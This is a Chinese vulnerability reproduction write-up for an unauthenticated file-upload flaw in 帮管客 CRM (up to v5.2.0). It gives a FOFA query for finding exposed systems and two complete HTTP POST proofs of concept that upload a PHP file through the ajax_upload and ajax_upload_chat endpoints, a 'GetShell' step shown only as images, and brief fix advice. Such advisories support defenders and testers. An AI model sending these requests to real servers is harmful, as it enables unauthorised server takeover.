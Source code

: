 
# 帮管客CRM 文件上传漏洞复现

### 0x01 产品简介

  帮管客CRM是一款集客户档案、销售记录、业务往来等功能于一体的客户管理系统。帮管客[CRM客户管理系统](https://so.csdn.net/so/search?q=CRM%E5%AE%A2%E6%88%B7%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)，客户管理，从未如此简单，一个平台满足企业全方位的销售跟进、智能化服务管理、高效的沟通协同、图表化[数据分析](https://www.pc6.com/pc/shujufenxiruanjian/ "数据分析")帮管客颠覆传统，重新定义企业管理系统。

### 0x02 漏洞概述

 帮管客CRM ajax\_upload\_chat、ajax\_upload等接口处存在文件上传漏洞，未经授权的攻击者可利用该漏洞获取服务器权限。

### 0x03 影响范围

 帮管客CRM客户管理系统免费版 <= v5.2.0

### 0x04 复现环境 

FOFA：app="帮管客-CRM"

![](assets/1701071246-48d7dd70df19136e69f996576e60f41e.png)

### 0x05 漏洞复现 

**PoC-1**

```cobol
POST /index.php/upload/ajax_upload HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryv1WbOn5o

------WebKitFormBoundaryv1WbOn5o
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php
phpinfo();unlink(__FILE__);
------WebKitFormBoundaryv1WbOn5o--
```

![](assets/1701071246-1c1ec56e681e6168b1beca0ced22a115.png) 回显了上传路径

![](assets/1701071246-3bf4f98de537f25a5ed5432a09123839.png) **PoC-2**

```cobol
POST /index.php/upload/ajax_upload_chat?type=image HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryv1WbOn5o

------WebKitFormBoundaryv1WbOn5o
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php
phpinfo();unlink(__FILE__);
------WebKitFormBoundaryv1WbOn5o--
```

![](assets/1701071246-01c99f0b95639843f1f6fb4944f0918e.png) 验证

![](assets/1701071246-cf419cc746b7bc4683d8a6b8576f8348.png)

**GetShell**

![](assets/1701071246-ca3bad2098c32666e642c23b1e4b0200.png)

### ![](assets/1701071246-856a7627a0b7bbea56f2ca30e01db5af.png)0x06 修复建议

关闭互联网暴露面或接口设置访问权限

升级至安全版本
